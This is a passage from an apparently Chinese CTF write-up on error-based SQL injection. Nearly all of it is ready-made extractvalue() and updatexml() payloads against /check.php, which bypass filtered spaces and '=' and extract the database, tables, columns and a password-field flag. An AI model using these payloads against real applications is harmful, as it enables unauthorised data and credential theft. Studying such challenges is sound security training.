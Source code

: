 当查flag不完整的话可以用一下函数：

substr，right，REVERSE，mid

###### 双写：

infoorrmation

###### extractvalue&&&&&updatexml

这里使用extractvalue和updatexml进行[报错注入](https://so.csdn.net/so/search?q=报错注入&spm=1001.2101.3001.7020)，空格和=号没有，所以我们要使用（）来代替空格，使用like来代替=号

使用extractvalue（）

```
//暴库
/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(database()))))%23
//爆表
/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))%23
//爆段落
/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))%23
//爆数据
/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(password)from(geek.H4rDsq1))))%23
//补充
flag出来了，不对好像只有一半，使用{left(),right()}
/check.php?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(geek.H4rDsq1))))%23

/check.php?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))%23


```

使用updatexml()

```
//查看数据库
1'or(updatexml(0,concat(0x5e,database()),0))#
//报表
1'or(updatexml(0,concat(0x5e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))),0))#
//爆字段
1'or(updatexml(0,concat(0x5e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))),0))#
//爆数据
1'or(updatexml(0,concat(0x5e,(select(group_concat(password))from(H4rDsq1))),0))#
//补充
 因为报错只能回显32位字符串，这里只回显了一部分的flag，接着用截断函数right查看身下的部分 

1'or(updatexml(0,concat(0x5e,right((select(group_concat(password))from(H4rDsq1)),31)),0))#


```
